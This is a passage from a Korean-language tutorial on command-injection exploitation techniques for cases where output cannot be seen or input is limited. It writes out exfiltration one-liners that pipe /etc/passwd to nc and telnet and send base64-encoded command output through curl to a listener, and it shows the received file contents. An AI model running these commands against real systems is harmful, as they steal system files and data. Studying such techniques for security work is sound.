 ## Exploit Technique

Command Injection 취약점을 통해 원하는 정보를 얻는 과정에서 어플리케이션 코드/설정 또는 WAF(Web Application Firewall, 웹 방화벽) 등에  의해 공격이 제한되는 상황이 발생할 수 있다.

- 실행 결과를 확인할 수 없는 상황
    
    Command Injection 취약점이 발생하여 원하는 명령어를 실행할 수 있지만 결과를 직접적으로 확인할 수 없는 상황에서 사용할 수 있는 공격 방법
    
- 입력 값의 길이/내용이 제한된 상황
    
    Command Injection이 발생하는 데이터에 사용자의 입력 값이 제한적으로 입력되는 상황에서 사용할 수 있는 공격 방법

### 실행 결과를 확인할 수 없는 환경 - 1

> Command Injection 취약점이 발생해 원하는 OS명령어를 실행할 수 있지만, 실행 결과가 사용자에게 노출되지 않는 상황에서 활용할 수 있는 공격 방법
{: .prompt-tip }

- Network Outbound
    - OS 명령어를 실행한 결과를 네트워크 도구를 이용해 외부 서버로 전송시키는 방법
- Reverse Shell / Bind Shell
    - Reverse Shell은 취약점이 발생하는 서버에서 공격자의 서버로 쉘을 연결(Network Outbound), Bind Shell은 특정 포트로 쉘을 서비스하는 것을(Network Inbound)의미
- 파일 생성
    - 어플리케이션 상에서 직접적으로 확인할 수 있는 파일 시스템 경로에 결과를 포함한 파일을 생성하거나, 어플리케이션 로직을 통해 확인할 수 있는 공간에 파일을 생성시켜 확인하는 방법

#### Network Outbound

- nc (netcat)
    
    ```bash
    cat /etc/passwd | nc 127.0.0.1 8080
    ```
    
    위와 같이 네트워크 도구를 통해 특정 IP/PORT에 결과를 전송하며, 아래와 같이 네트워크 도구를 이용해 전송된 데이터 내용을 확인할 수 있다.
    
    ```bash
    $ nc -l -p 8080 -k -v
    Listening on [0.0.0.0] (family 0, port 8080)
    Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 42396)
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...
    ```
    
- telnet
    
    ```bash
    cat /etc/passwd | telnet 127.0.0.1 8080
    ```
    
- curl / wget
    
    ```bash
    # GET parameter에 실행 결과 포함(개행으로 인해 오류가 발생할 수 있기 때문에 base64인코딩을 통해 개행 제거.)
    curl "http://127.0.0.1:8080/?$(ls -al | base64 -w0)"
    